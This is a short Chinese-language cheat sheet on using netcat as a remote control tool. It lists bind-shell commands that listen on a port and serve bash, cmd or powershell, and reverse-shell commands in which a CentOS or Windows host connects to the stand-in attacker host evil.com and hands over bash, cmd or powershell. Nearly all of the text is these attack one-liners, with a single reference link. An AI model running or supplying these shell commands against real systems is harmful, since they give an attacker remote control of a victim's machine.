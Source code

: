 远程控制工具。

## 1. 正向连接

侦听端口，并在连接后开启终端

```
[root@centos7-6 ~]# nc -lnvp <port> -c bash
```

```
[root@centos7-6 ~]# nc -lnvp <port> -e /usr/bin/bash
```

```
PS C:\Users\Administrator> C:\path\nc.exe -lvnp <port> -e cmd
```

```
PS C:\Users\Administrator> C:\path\nc.exe -lvnp <port> -e powershell
```

连接目标端口

```
┌──(root㉿kali-23)-[~]
└─# nc -nv evil.com <port>
```

```
┌──(root㉿kali-23)-[~]
└─# nc evil.com <port>
```

```
PS C:\Users\Administrator> C:\path\nc.exe -nv evil.com <port>
```

```
PS C:\Users\Administrator> C:\path\nc.exe evil.com <port>
```

## 2. 反向链接

侦听端口

```
┌──(root㉿kali)-[~]
└─# nc -lnvp <port>
```

```
PS C:\Users\Administrator> C:\path\nc.exe -lvnp <port>
```

连接目标端口，并在连接后开启终端

```
[root@centos7-6 ~]# nc -nv evil.com <port> -c bash
```

```
[root@centos7-6 ~]# nc evil.com <port> -e /usr/bin/bash
```

```
PS C:\Users\Administrator> C:\path\nc.exe evil.com <port> -e cmd
```

```
PS C:\Users\Administrator> C:\path\nc.exe evil.com <port> -e powershell
```

---

References

- [netcat](https://www.kali.org/tools/netcat/)

